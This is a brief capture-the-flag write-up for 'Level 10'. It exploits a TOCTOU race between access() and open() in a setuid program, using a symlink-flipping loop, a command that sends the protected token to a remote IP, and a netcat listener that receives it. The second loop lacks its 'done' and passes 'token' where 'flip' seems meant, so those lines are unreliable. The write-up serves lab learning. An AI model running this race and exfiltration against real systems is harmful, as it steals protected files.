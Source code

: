 # Level 10

We can exploit this program through a race condition that occurs between checking permissions on the file with `access()` and actually reading the file with `open()`. This is classic TOCTOU (time-of-check time-of-use) race condition.

By using symlinks we can point `access()` to a file we can actually read and after switch the link to the file we actually want to get, in this case `token`.

Create while-loop for switching symlinks and run program:

```
while true; do ln -sf token flip; ln -sf public flip; done
while true; do ./flag10 token <IP>
```

Listen on machine for token with netcat:

`while true; do nc -lp 18211; done`


